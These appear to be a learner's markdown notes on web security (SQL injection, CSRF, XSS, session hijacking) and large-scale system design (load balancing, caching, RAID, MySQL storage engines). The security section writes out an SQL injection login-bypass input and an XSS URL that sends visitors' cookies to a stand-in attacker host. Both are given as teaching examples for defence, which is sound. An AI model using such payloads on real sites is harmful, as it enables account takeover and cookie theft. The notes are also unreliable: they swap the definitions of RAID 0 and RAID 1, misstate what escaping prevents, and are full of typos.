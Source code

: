 # Security

## Motivation
- Writing notes for learning how to build a secure web service.

## Key Questions
- What happens if the file are not encypted?
  - FTP to SFTP
  - HTTP to HTTPS
  - telnet vs SSH
  
  User sessions or important information might sniffs by hackers. For example, people can see sessions in the header of HTTP without using SSL. Then the bad guys will be able to pretend you in the system.

- How about running the programs in different user, instead of root?
  
  - For example, using httpd to run Apache. The bad guy could only use httpd to break down Apache, and the file httpd owns.
  - Using a group to control the read access, sperate the update command for unique users.

    
## Key Threats
- ***User privilege***
  
  Try to be aware of the initial functions that the program users can execute, and keep the privilege on single user. 
	
  - For example, php web server are able to execute files by echo the name of the file. So, we should manupilating in our own code, not to enable some initial function that might cause damage, like sql injections or giving important details.
    
    Something buggy happens, like the bad guy try to delete files, they only could delete the user's only.
    
- ***Stealing info from response***

  Sensitive information should not be seen, etc: version, user tokens.
  
  - Make sure your program in your settings will not leak any critical details.

- ***Session Hijacking***
  - Packet Sniffing
  - Session Fixation (guess the session combinations)
  - XSS (Cross-Site Scripting)
  
  How can we mitigate these threats?
  - Session Encypted - SSL using public cryptography
    
    Buying a domain with SSL from godaddy. We get two unique key. A public key to encrypt the data, which could publicly spread to others. On the other hand, the private key on our server is the only key to decrypt the data.

- ***SQL Injection***
  - Remember to call the protecting functions like mysql real_escape_string() in PHP. It prevents special symbols, like semicolon;. They might even drop your table, if you ignore this risk. 

  - Down below is an bad mysql code, which might give the bad guys a chance to cause damage to your system.

	
  	"SELECT uid From users WHERE username = '%s' AND password='%s'", ...
    
    Giving password %s=123' OR '1'='1'. This case will let the user login without using the real password, since it will return true.
  
  - Django server by using orm will be much safer, or using Python Database API. Both of them have inplement escaping special symbols.
  	
- ***CSRF / XSS (Cross-Site Scripting)***
  
  CSRF
  - Bad guys might use your domain to let people clicking unwittingly, or even trigger simply by visit the bad website. For example, they embed a buying link, which cause the users kept buying specific stocks.
  
  - How do we prevent this happens?
    - Create identifier for some key functions, or we make the action more complex by using POST.
    
  XSS
  - Bad guys might able to implement script to redirect and get users cookie by using same domain as your. For example, provide a web injection by using script tag in there webs down below.
  
	www.eshop.com/?foo=<sript>documemnt.location="badguy.com/..."</srcipt>
    
    The user of eshop's cookie will automatically send to badguys.com, which is a tragety.

# Scalability

## Motivation
* Writing notes for learning how to design a large Scale System.
* Compare feartures, understand there pros and cons.

## Senario

> Before we started, try to imagine the product that your going to build and maintain. For example, one day the 5G has become pervasive, the user device will be dramatically increase. People can easily enter your website by phones, watches, bags, and even on their autonomous vehicle.

## Key Feature
- Load balancer 

  We let the black box balancer do the data routing to the backend server S1, S2... (ex. Load balancing with BIND DNS server -> return different IP address)
    
  How to decide whom we should send the request to?
  1. File type according to url
  2. Server load
  3. Sequence (Round Robin)
    
    For instance, using nginx to set the routing round Robin [NGINX RR Setting](https://www.nginx.com/resources/glossary/round-robin-load-balancing/)

  - Software: NGINX, ELB, HAProxy
  - Hardware: Barracuda, Cisco, Citrix
- Caches
  
  Our operating system might cache the response of the request. There might not be another DNS request every time we click a website. 

  - ***DNS TTL (time-to-live)*** is the expiration time for a DNS response. For example, power users often will have a long TTL that assign them to the same backend server, instead of reschedule them to a another backend server.
  - Consider a ***session state server***. Otherwise, for instance a php session superglobal load balancer store sessions on single machine. This will cause problem when assigning same user to other machines.
  
  - Etc. Apache - HTML, MYSQL cache, Memcached (Redis)

  Q. What if the caches goes down? What should we prepare for this?
    - A. Using RAID to recover data lost.
    - B. Using multiple server for sharing data
      - FC, iSCSI (using internet protocal), MySQL, NFS

  Q. What information should we store in the user side cache (cookies)?
    - Avoid reveal public IP. Try to encypt the important info.

  Q. What will we have to do if we run out of cache?
    - Garbage Collection (expire object)
    
- RAID (Redundant array of independent disks)
  - RAID 1
    
    ***Stiping data*** though two raids. Split datas into two disk, and try to write in simontaneously, which produce great efficiency.
    
  - RAID 0 
    
    Mirror the data in two hard drives. Rebuild when one goes down.
    
  - RAID 10
    
    Combining Raid 1 and Raid 0, using four hard drives.

  - RAID 5 
    
    More versatile. N drives but only one is for redundancy, which will only sacrificing 1/n of the RAID system. Able to recover any one drives dies.
    
  - RAID 6
  
    Able to recover any two drives dies, with one more redundancy hard drive.

- DataBase
	
    - MYSQL compare with different [storage engines](https://ssorc.tw/663/mysql-%E7%9A%84%E5%90%84%E7%A8%AE-storage-engines-%E5%84%B2%E5%AD%98%E5%BC%95%E6%93%8E%E6%AF%94%E8%BC%83/)
		
        - MyISAM
        	
            No Storage limit, and with a table Locking granularity.
        - InnoDB
        	
            Row lock, enable transactions.
          
        - Memory
        - Archive
    		
            Compressed data, suitable for storing log files.
        - Cluster/NDB

![Storage Engines](https://i.imgur.com/fGG5dtt.png)

# Referrence
- 2012 Hardvard Web Development - David Malan
